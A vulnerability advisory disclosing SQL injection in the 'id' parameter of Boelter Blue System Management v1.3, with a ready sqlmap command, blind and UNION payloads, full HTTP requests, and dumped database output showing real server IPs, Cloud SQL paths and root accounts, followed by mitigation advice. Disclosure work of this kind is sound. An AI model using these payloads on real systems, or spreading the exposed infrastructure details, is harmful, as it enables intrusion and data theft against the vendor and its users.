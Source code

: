 # Multiple SQL Injection Vulnerabilities in Boelter Blue System Management v1.3

**Discovered by**: [CBKB] - DeadlyData, R4d1x  
**Date**: 2024-05-27  
**Affected Software**: Boelter Blue System Management  
**Version**: 1.3  
**Vendor**: Boelter Blue ([boelter.com](https://www.boelter.com/))  
**Software Link**: [Google Play Store](https://play.google.com/store/apps/details?id=com.anchor5digital.anchor5adminapp&hl=en_US)  

## Overview

Boelter Blue System Management v1.3 has been found to contain multiple critical SQL injection vulnerabilities. These vulnerabilities allow attackers to execute arbitrary SQL queries, potentially leading to sensitive data exposure, unauthorized access, and complete control over the affected database.

## Vulnerabilities

### 1. SQL Injection in `news_details.php`
**Vulnerable Parameter**: `id`  
**Type**: Boolean-based blind, Time-based blind, Union-based injection  
**Impact**: Full database access, Information disclosure, Account takeover

#### PoC Example
**SQLMap Injection**: 
`sqlmap -u "https://www.example.com/news_details.php?id=10071" --random-agent --dbms=mysql --dbs`


**Injection Types**:

    Boolean-based blind
    Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=10071 AND 1452=1452
    
    
    Time-based blind
    Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=10071 AND (SELECT 5588 FROM (SELECT(SLEEP(5)))UtkO)
    
    Union-based injection
    Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-5298 UNION ALL SELECT NULL,NULL,CONCAT(0x717a787671,0x4d7065654c5a5547576a676c6c4d676f574b475a504a5369644c636a57525a7478684c4f56676561,0x71767a7671),NULL,NULL,NULL,NULL,NULL-- -



**HTTP Requests**:

    Boolean-based blind
    
        GET /news_details.php?id=10071 AND 1452=1452 HTTP/1.1
        Host: [target_website]
        User-Agent: [Your User-Agent]
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: keep-alive
        Upgrade-Insecure-Requests: 1
    
    
    Time-based blind
    
        GET /news_details.php?id=10071 AND (SELECT 5588 FROM (SELECT(SLEEP(5)))UtkO) HTTP/1.1
        Host: [target_website]
        User-Agent: [Your User-Agent]
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: keep-alive
        Upgrade-Insecure-Requests: 1
    
    
    Union-based injection
    
        GET /news_details.php?id=-5298 UNION ALL SELECT NULL,NULL,CONCAT(0x717a787671,0x4d7065654c5a5547576a676c6c4d676f574b475a504a5369644c636a57525a7478684c4f56676561,0x71767a7671),NULL,NULL,NULL,NULL,NULL-- - HTTP/1.1
        Host: [target_website]
        User-Agent: [Your User-Agent]
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: keep-alive
        Upgrade-Insecure-Requests: 1



## Impact

These vulnerabilities can be exploited to achieve the following:

-   **Data Exfiltration**: Admin credentials, user email/password hashes, device hashes, user PII, purchase history, and database credentials.
-   **Remote Code Execution**: Through execution of arbitrary SQL queries.
-   **Account Takeover**: By retrieving and decrypting user credentials.
-   **Full Database Access**: Ability to read, modify, and delete any data in the database.

## Technical Details

### Database Information

**DBMS**: MySQL >= 5.0.12  
**Web Server**: Apache 2.4.25  
**Operating System**: Linux Debian 9 (stretch)

#### Extracted Databases

    available databases [5]:
    [*] Anchor5Digital
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] sys


#### Sample Extracted Data

**Database: Anchor5Digital**

**Table: DatabaseConnection**

    +----+-----------------+--------------------------------------------------------+---------------+------------------------------------+----------+------------+----------------+
    | id | ip              | url                                                    | name          | mainURL                            | username | password   | displayName    |
    +----+-----------------+--------------------------------------------------------+---------------+------------------------------------+----------+------------+----------------+
    | 1  | 104.197.215.116 | /cloudsql/patrick-cudahy:us-central1:patrick-cudahy-db | PatrickCudahy | https://patrick-cudahy.appspot.com | root     | S0lu****   | Patrick cudahy |
    | 2  | 35.184.62.89    | /cloudsql/our-event-app:us-central1:oureventapp-db     | OurEventApp   | https://our-event-app.appspot.com  | root     | S0lu****   | OurEventApp    |
    +----+-----------------+--------------------------------------------------------+---------------+------------------------------------+----------+------------+----------------+


**Table: Payment**

    +----------------+-------------+
    | Column         | Type        |
    +----------------+-------------+
    | type           | varchar(20) |
    | amount         | varchar(20) |
    | auth_code      | varchar(50) |
    | business_id    | int(11)     |
    | id             | int(11)     |
    | paymentDate    | varchar(50) |
    | people_id      | int(11)     |
    | processor      | varchar(20) |
    | transaction_id | varchar(30) |
    +----------------+-------------+

**Table: system_user**

    +-----------+
    | Host      |
    +-----------+
    | %         |
    | 127.0.0.1 |
    | 127.0.0.1 |
    | ::1       |
    | localhost |
    | localhost |
    | localhost |
    | localhost |
    +-----------+

    +-----------------+
    | User            |
    +-----------------+
    | cloudsqlexport  |
    | cloudsqlimport  |
    | cloudsqlimport  |
    | cloudsqloneshot |
    | cloudsqlreplica |
    | root            |
    | root            |
    | root            |
    +-----------------+


## Mitigation

To mitigate these vulnerabilities, it is recommended to:

-   **Validate and Sanitize User Inputs**: Ensure that all user-supplied data is properly validated and sanitized before being processed by the application.
-   **Use Parameterized Queries**: Implement parameterized queries or prepared statements to prevent SQL injection.
-   **Implement a WAF**: Deploy a Web Application Firewall to detect and block SQL injection attempts.

## References

-   [Boelter Blue Homepage](https://www.boelter.com/)
-   [Google Play Store](https://play.google.com/store/apps/details?id=com.anchor5digital.anchor5adminapp&hl=en_US)

## Disclosure Timeline

-   **2023**: Vulnerabilities discovered by CBKB team.
-   **2023**: Vendor notified.
-   **2024**: Vendor notified.
-   **2024-06-20**: Public disclosure and CVE request submitted.

## CVE Information

-   **CVE ID**: Pending

## Contact Information

For any questions or concerns regarding this vulnerability, please contact us at: infosec-db@protonmail.com

----------

[CBKB]-   DeadlyData, 
[CBKB]-   R4d1x
